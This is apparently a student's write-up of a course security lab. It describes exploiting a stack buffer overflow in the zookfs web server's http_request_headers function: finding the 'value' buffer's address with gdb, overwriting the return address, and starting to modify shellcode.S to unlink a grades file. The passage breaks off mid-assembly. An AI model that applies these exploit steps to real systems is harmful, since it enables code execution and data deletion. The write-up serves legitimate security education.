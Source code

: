 According to the description in this lab, we shall modify the [shellcode.S](./lab1/shellcode.S) file for it to cater to our customized system call, which is the unlink function.

> The detailed description of why and how the shell code works can be seen in [Smashing the Stack for Fun and Profit](http://phrack.org/issues/49/14.html#article)

Since this code is targeted for hijack the control flow, we used the vulnerable in function 'http_request_headers', i.e., the 'value' variable to overwrite the return address and inject our code (bug #4 in Exercise 1). 
So that our steps include the following:

1. get the address of variable 'value'.
   
   use the following gdb commands:

   ```bash
   gdb -p $(pgrep zookfs-exstack)
   (gdb) b http_request_headers
   (gdb) c
   (gdb) layout split
   (gdb) p &value 
   ```
   
   we get

   ```bash
   (gdb) p &value
   $1 = (char (*)[512]) 0xbfffdbf4
   ```

   such that we get the address of 'value' is 0xbfffdbf4, which stays constant across program executions.

2. construct the corresponding shell code
   
   There are two different ways to unlink the file:

   * use 'execve' function

    ```bash
    execve("/usr/bin/unlink","~/grade.txt",NULL);
    ```

    or

    * use 'unlink' function

    ```bash
    unlink("~/grade.txt");
    ```

    First, let's go with the simpler one: use 'unlink' function. This is rather easy, since the needed modification to [shellcode.S](lab1/shellcode.S) is

    ```asm
    #include <sys/syscall.h>

    #define STRING  "/home/httpd/grades.txt"
    #define STRLEN  22
    #define ARGV    (STRLEN+1)
    #define ENVP    (ARGV+4)
